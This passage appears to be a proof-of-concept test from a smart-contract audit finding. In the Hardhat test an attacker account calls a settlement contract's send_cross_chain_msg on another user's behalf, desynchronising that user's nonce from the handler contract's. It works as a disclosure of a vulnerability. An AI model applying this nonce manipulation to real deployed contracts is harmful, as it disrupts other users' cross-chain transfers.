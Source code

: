 ### Test

```
        it('Test Manipulate another settlement contract user nonce', async () => {
            const [
                sender,
                receiver,
                attacker,
            ] = await hre.ethers.getSigners();
            const { tokenInstance, tokenOperator, codecInstance, settlmentInstance, tokenOwner, settlementHandlerInstance, settlementHnadlerOwner, messageLibTestInstance } = await loadFixture(deploySettlementHandlerFixtureMintBurn);

            const senderAddress = await sender.getAddress()
            const receiverAddress = await receiver.getAddress()
            const settlementHandlerAddress = await settlementHandlerInstance.getAddress()
            const totalAmount = 1000000;
            await tokenInstance.connect(tokenOperator).mint_to(sender, totalAmount);


            const toChain = "dst"
            const toHandler = 1
            const toToken = 1
            const receiverAddressU256 = hre.ethers.toBigInt(Buffer.from(receiverAddress.slice(2), 'hex'))
            const amount = 1000

            await tokenInstance.connect(sender).approve(settlementHandlerAddress, 1000)

            const tx = await settlementHandlerInstance.connect(sender).cross_chain_erc20_settlement(
                toChain,
                toHandler,
                toToken,
                receiverAddressU256,
                amount
            )
            const nonceBefore = await settlmentInstance.nonce_manager(senderAddress);
            console.log("Nonce value in settlement contract before attack:", nonceBefore.toString());

            const payloadType = 5; // Assuming a payload type, e.g., for an ERC20 transfer
            const payload = "0x616263"; // Example payload data ("abc" in hex)
            await(settlmentInstance.connect(attacker).send_cross_chain_msg(
                toChain,
                senderAddress, // sender address to target
                toHandler,
                payloadType,
                payload,
            ));
            const nonceAfter = await settlmentInstance.nonce_manager(senderAddress);
            console.log("Nonce value in settlement contract after attack:", nonceAfter.toString());

            const handlerNonce = await settlementHandlerInstance.nonce_manager(senderAddress);
            console.log("Handler Contract User Nonce: ", handlerNonce.toString());
            expect(nonceAfter).to.be.not.equal(handlerNonce);

        });
```
